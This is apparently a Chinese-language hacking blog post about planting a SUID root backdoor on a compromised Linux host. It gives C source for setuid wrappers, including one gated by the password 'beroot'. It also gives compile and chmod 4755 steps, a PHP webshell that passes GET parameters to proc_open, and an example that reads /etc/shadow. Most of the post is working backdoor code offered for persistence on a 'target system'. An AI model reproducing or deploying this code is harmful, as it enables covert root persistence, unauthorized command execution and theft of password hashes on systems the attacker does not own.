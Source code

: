 ```yaml
---
layout: post
title: suid后门（suid shell）
date: 2018-06-26 23:30:00
tags: 后门 suid
categories: hack 
author: PythonPig
---
```

* content
{:toc}
suid shell 是可以以shell所有者权限运行的shell。 

#### \#0x00 suid shell生成

suid shell简单代码：  
'''c
\#include<stdlib.h>
main () {
setuid(0);
system("/bin/bash");
}
'''




切换至root下，执行：  
gcc bashwrap.c -o bashwrap  
chmod 4755 bashwrap  （赋予suid权限）  

此时bashwrap就是一个suid shell

#### \#0x01 suid shell调用（PHP环境）

把suid shell隐藏在目标系统上(假设放在/tmp/目录下)，通过web的方式调用（假设webshell权限较低，希望使用suid shell执行root命令），假如web环境是PHP，在web目录下上传如下PHP文件：  
'''php
<?php
if(isset($_GET['path']) && isset($_GET['cmd'])){
 $path = $_GET['path'];
 $cmd = $_GET['cmd'];
 $descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("pipe", "w")
 );
 $process = proc_open($path, $descriptorspec, $pipes);
 if (is_resource($process)) {
  fwrite($pipes[0],$cmd);
  fclose($pipes[0]);
  echo stream_get_contents($pipes[1]);
  echo stream_get_contents($pipes[2]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  $return_value = proc_close($process);
 }  
}
>
''' 
访问http://x.x.x.x/exploit.php?path=/tmp/bashwrap&cmd=id即可以root的权限执行命令id  

注：  
1、webshell的权限较低，但是已经完成了提权，可以使用上述方式留下root后门；  
2、利用webshell提权时，把exp上传至/tmp/exp，访问http://x.x.x.x/exploit.php?path=/tmp/exp&cmd=id，若提权成功，则会以root权限执行命令id。  

#### \#0x01 suid shell调用（非PHP环境）  

在非PHP环境下使用如下代码生成suid shell
'''
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buf[256]={0};
    if(strcmp(argv[1],"beroot") == 0)
    {
        setuid(0);
        int i;
        for(i = 2; i < argc; i ++){
            strcat(buf, argv[i]);
            strcat(buf," ");
        }
        execl("/bin/sh","sh","-c", buf,(char *)0);
        return 0;
    }
    else
    {
            printf("%s\n","Execution Error!");
            return -1;
    }
    return 0;
}
'''  

然后在低权限的web shell命令执行处执行：./bashwrap beroot cat /etc/shadow即可以root权限执行cat /etc/shadow



